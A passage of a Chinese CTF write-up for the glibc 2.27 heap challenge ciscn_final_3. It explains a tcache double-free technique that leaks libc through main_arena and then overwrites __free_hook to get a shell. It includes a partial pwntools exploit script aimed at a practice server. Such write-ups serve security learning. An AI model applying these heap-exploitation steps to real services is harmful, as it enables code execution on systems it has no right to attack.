 因此我们就必须考虑另辟蹊径。

思考一下，如果我们能够将chunk分配到main_arena中或者是__free_hook，那么分配之后的输出就能够让我们成功获取libc的地址。因此总的思路是：想尽办法将chunk分配到main_arena，获取libc地址后再想办法分配chunk到__free_hook。本题的libc版本为2.27-3ubuntu1，笔者的libc版本为2.27-3ubuntu1.6，这两个版本对于tcache的free操作不同，前者没有对于tcache的double free检查，而后者有，因此必须加上环境变量LD_PRELOAD选项。但即便如此，也只能勉强做题，因为没有dbg-symbols，我们无法在gdb中使用heap、bin等查看堆内容的关键性命令，这会使得做题变得很难受。不过由于这道题的出题时间比较早，出现这种情况也是完全可以理解的，做最近比赛的题目一般就不会有这种蛋疼的情况。

说回到本题上。本题利用仅有的一个输出机会的方式如下图所示：
![](1.png)

注：图中浅色chunk比深色chunk的大小小。

由于2.27-3ubuntu1版本中没有对tcache chunk的double free检测，我们甚至可以连续两次释放同一个chunk。释放后，首先分配一次出去，将fd指针修改到该chunk前面0x10字节，然后再一次分配，这一次分配就可以修改到这个chunk的大小，将其改成unsorted bin的范围，这样在free这个chunk之后，堆中就会出现2个相同的指向main_arena+96的地址。然后我们通过继续分配让这个chunk被切割，这里要注意一个细节，就是切割后main_arena+96的保存地址会修改，我们让这个地址被修改到下一个chunk的fd部分，再提前将这个chunk释放掉，这样tcache中就会链入main_arena+96的地址。如此操作之后，我们就能够向main_arena+96分配chunk。

这里还要注意一个细节，我们要将第2个chunk的大小设置得与其他的chunk不同，可以假设一下，如果实现分配的所有chunk大小都相同，那么释放的顺序应该是2、1、1，这样第1个chunk才能在后面的malloc中优先被分配。在malloc两次之后，第1个chunk的大小被成功修改，此时tcache中还有1个chunk，那就是chunk 2，此时若想要切割unsorted bin chunk，就必须首先分配第2个chunk，此时tcache为空，即使此时chunk 2中的fd被修改为了main_arena+96，我们也无法在这个地方分配chunk了，因为它已经无法被链入到tcache链表，只有当chunk 2在释放状态时修改fd指针才行。

有了libc的基地址之后，我们就可以如法炮制，通过double free将chunk轻松地分配到__free_hook，然后一次释放即可get shell。

```python
from pwn import *
context.log_level = 'debug'

# io = process(['./ciscn_final_3'])
io = remote('node4.buuoj.cn', 28938)
libc = ELF('./libc.so.6')

sla = lambda x, y: io.sendlineafter(x, y)
sa = lambda x, y: io.sendafter(x, y)
heap_addr = [0] * 0x18

def add(index, size, content):
	sla(b'choice > ', b'1')
	sla(b'input the index\n', str(index).encode())
	sla(b'input the size\n', str(size).encode())
	sa(b'now you can write something\n', content)
	io.recvuntil(b'gift :0x')
	heap_addr[index] = int(io.recvuntil(b'\n', drop=True), 16)	

def delete(index):
	sla(b'choice > ', b'2')
	sla(b'input the index\n', str(index).encode())

add(0, 0x70, b'\n')
add(1, 0x40, b'\n')
add(2, 0x70, b'/bin/sh\n')
add(3, 0x60, b'\n')
add(4, 0x60, b'\n')
add(5, 0x60, b'\n')
add(6, 0x70, b'\n')
add(7, 0x70, b'\n')
add(8, 0x70, b'\n')

add(9, 0x10, b'\n')

delete(0)
delete(0)
delete(1)

add(10, 0x70, p64(heap_addr[0] - 0x10) + b'\n')
add(11, 0x70, b'\n')
```